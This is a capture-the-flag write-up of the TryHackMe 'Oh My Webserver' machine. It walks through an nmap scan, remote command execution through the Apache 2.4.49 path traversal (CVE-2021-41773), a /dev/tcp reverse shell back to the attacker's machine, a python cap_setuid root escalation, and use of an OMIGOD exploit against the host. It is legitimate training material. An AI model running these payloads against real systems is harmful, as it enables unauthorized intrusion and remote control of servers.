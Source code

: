 # Oh My Webserver

***

Platform: Tryhackme

Difficulty: Medium

Initial Access: Outdated apache web server

Privilege Escalation: Misconfigured capabilities(container) and CVE-2021-38647(hostmachine)

***

Nmap scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.10.25.254 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 00:34 EDT
Nmap scan report for 10.10.25.254
Host is up (0.27s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%), Google Android 10.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:google:android:10 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports     | Methodology                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------- |
| 22 (SSH)  | Potentially for later use                                                                                 |
| 80 (http) | Apache service version 2.4.49 looks outdated. May be potential exploit availabe for this service version. |

***

### Getting User Flag

Port 80:

Just a static website of business consultancy.

<figure><img src="https://github.com/user-attachments/assets/0c68c143-df78-46ed-93cf-1b8a28cf1757" alt=""><figcaption></figcaption></figure>

We can search for potential exploit which may be available on google for apache service version 2.4.49

<figure><img src="https://github.com/user-attachments/assets/4b2923d3-f4d9-4c57-8be4-1ea9d08e717f" alt=""><figcaption></figcaption></figure>

Confirmed, this service version is vulnerable to CVE-2021-41773.

💡

Apache 2.4.49 had a bug in how it normalized paths when processing HTTP requests.

This allowed attackers to **bypass access restrictions** and read files outside of the intended web root. The `mod_cgi` or `mod_cgid` module must be enabled **if** you want to escalate to remote code execution.

We can confirm `cgi-bin` directory though our browser.

<figure><img src="https://github.com/user-attachments/assets/f2555201-6842-4bf6-8888-eb6e57b11e40" alt=""><figcaption></figcaption></figure>

Forbidden, means its present, but we can’t access it.

Through the understanding of above CVE, we can use this payload to check if it works.

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ curl 'http://10.10.92.95/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"
```

<figure><img src="https://github.com/user-attachments/assets/effb1afe-f646-43d7-b355-d6dd6dff86e8" alt=""><figcaption></figcaption></figure>

Ok, as it is executing our commands, let’s get the reverse shell back to us.

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ curl 'http://10.10.92.95/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami; bash; /bin/bash -i >& /dev/tcp/10.17.87.131/4445 0>&1' -H "Content-Type: text/plain"
```

<figure><img src="https://github.com/user-attachments/assets/7710b799-ecfd-4d55-8a33-286bef6a457e" alt=""><figcaption></figcaption></figure>

Got the reverse shell back as user daemon, but it’s a container, not a host machine….

<figure><img src="https://github.com/user-attachments/assets/ee832891-16fc-4582-8ba7-26e1f3e93fea" alt=""><figcaption></figcaption></figure>

After a lot of enumeration, I found something interesting by exploring capabilities.

<figure><img src="https://github.com/user-attachments/assets/e52eb153-2e58-4649-ad9f-cccb2024c238" alt=""><figcaption></figcaption></figure>

python3.7 binary is set for cap\_setuid+ep capability, we can use it to gain root access.

> If you wanna read and know more about capabilities you can check [article by hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on privilege escalation via capabilities.

```bash
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<figure><img src="https://github.com/user-attachments/assets/b8f1c678-adf1-44e8-bfd2-be5d9b21a02c" alt=""><figcaption></figcaption></figure>

Got root shell on that container.

Grabbed user flag.

<figure><img src="https://github.com/user-attachments/assets/42d0a280-b55a-4f34-bce2-861861abe74a" alt=""><figcaption></figcaption></figure>

***

### Getting Root flag

Checked container’s ip address

<figure><img src="https://github.com/user-attachments/assets/d0e41ed9-3221-46ee-abec-ae60291a81ca" alt=""><figcaption></figcaption></figure>

As this container is running on ip `172.17.0.2` , host machine should be running on `172.17.0.1`

We can transfer [nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) on container and use it to scan open ports on hostmachine.

Download that binary on your kali machine, then transfer it to the container which we owned.

<figure><img src="https://github.com/user-attachments/assets/32c9ef32-0ffa-4de9-90eb-09a7490d3965" alt=""><figcaption></figcaption></figure>

<figure><img src="https://github.com/user-attachments/assets/54f2e66e-0d09-40ac-867e-bd5c948420bc" alt=""><figcaption></figcaption></figure>

Run that nmap binary.

<figure><img src="https://github.com/user-attachments/assets/49a42188-0055-4433-ba63-51a90bcf26c3" alt=""><figcaption></figcaption></figure>

As we can see, 4 ports were open on hostmachine `22, 80, 5985, 5986`

While searching for potential service exploit for 5986, found out a POC for CVE-2021-38647 #OMIGOD.

<figure><img src="https://github.com/user-attachments/assets/c5d22fba-ae5c-405a-88ed-f42bcc72f9ff" alt=""><figcaption></figcaption></figure>

Downloaded that python exploit in to kali machine and served it to the container.

<figure><img src="https://github.com/user-attachments/assets/83581f6c-d24b-486e-99a1-59d3d0555814" alt=""><figcaption></figcaption></figure>

<figure><img src="https://github.com/user-attachments/assets/8ddc8b92-8672-4917-9c8e-e632ffe534be" alt=""><figcaption></figcaption></figure>

Run that exploit.

<figure><img src="https://github.com/user-attachments/assets/bfcfb05b-8382-4cbf-aa82-53ebc1676594" alt=""><figcaption></figcaption></figure>

And, successfully able to execute commands to the hostmachine.

Let’s grab root’s flag.

<figure><img src="https://github.com/user-attachments/assets/b3d16fe8-ce8e-488e-ad86-a83865ef3291" alt=""><figcaption></figcaption></figure>

***

That’s it for this machine.✅
